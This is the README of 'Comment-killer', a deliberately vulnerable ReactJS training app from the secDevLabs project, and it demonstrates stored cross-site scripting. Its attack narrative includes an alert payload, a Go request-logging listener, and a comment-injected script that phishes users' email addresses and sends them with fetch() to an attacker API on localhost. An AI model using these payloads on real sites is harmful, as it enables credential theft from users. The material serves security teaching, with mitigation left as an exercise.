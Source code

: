 # Comment-killer

<p align="center">
    <img src="images/img1.png"/></br>
    <a href="README_PT_BR.md"><img height="24" title="Acessar conteúdo em Português" src="https://img.shields.io/badge/Acessar%20conte%C3%BAdo%20em-Portugu%C3%AAs-blue"/></a>
</p>

Comment-killer is a simple ReactJS app, which has a Injection (XSS) vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

# Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

<a name="Def"></a>

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws. Learn more <a href="https://owasp.org/www-community/attacks/xss/">here</a>.

<a name="Set" ></a>

## Setup

To start this intentionally **insecure application**, you will need [Docker](https://docs.docker.com/get-docker/) and [Docker Compose](https://docs.docker.com/compose/install/). After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Then simply visit [http://localhost:10007](http://localhost:10007) ! 😆

## Get to know the app 👾

To properly understand how this application works, you can follow these simple steps:

- Read the cool history behind the Memes.
- Add a new comment post.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that the comment entry is not sanitized and can be executed on a web browser. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Adding a new comment to a post:

<p align="center">
    <img src="images/img2.png"/>
</p>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

#### 🔥

An attacker may abuse this flaw by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will create an email form to try and steal user credentials.

Initially, an API is needed to log all received requests and can be built in Golang as follows:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

In order to start the API, the following command can be used (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

With the API now up and running, all that is needed is the following code to show a pop-up message requesting the user's email in order to continue reading the blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

The above JavaScript code is responsible for sending a `GET` request to the attacker's API so it can be logged. In this scenario, we'll be sending requests to `localhost`.

All we need now is to paste the JavaScript code in the comments field, as shown by the following image:

<p align="center">
    <img src="images/img3.png"/>
</p>

When another user access the app, the following pop-up will be shown, as we can see in the image below:

<p align="center">
    <img src="images/img4.png"/>
</p>

Meanwhile, with the API up and running, we're able to receive the user's email, as shown by the next image:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

<a name="Sol"></a>

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
